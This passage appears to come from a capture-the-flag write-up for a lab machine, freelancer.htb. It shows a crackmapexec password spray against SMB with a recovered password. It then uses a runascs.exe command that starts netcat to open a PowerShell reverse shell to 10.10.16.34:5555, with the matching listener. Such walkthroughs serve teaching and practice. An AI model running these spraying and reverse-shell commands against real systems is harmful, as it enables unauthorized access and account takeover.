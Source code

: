If now we run a Password spray attack using crackmapexec against SMB service we obtain this result:

{% code overflow="wrap" %}
```bash
crackmapexec smb -u local_users.txt -p "IL0v3ErenY3ager" -d freelancer.htb freelancer.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

`freelancer.htb\mikasaAckerman`<-->`IL0v3ErenY3ager`

The WinRM for these users is disabled, so we need to change user in reverse shell using `runascs.exe`:

{% code overflow="wrap" %}
```powershell
.\runascs.exe -d freelancer.htb mikasaAckerman IL0v3ErenY3ager 'C:\temp\nc.exe 10.10.16.34 5555 -e powershell.exe'
```
{% endcode %}

Running `rlwrap nc -lnvp 5555` on another tab allow us to login as mikasaAckerman and got the user flag:
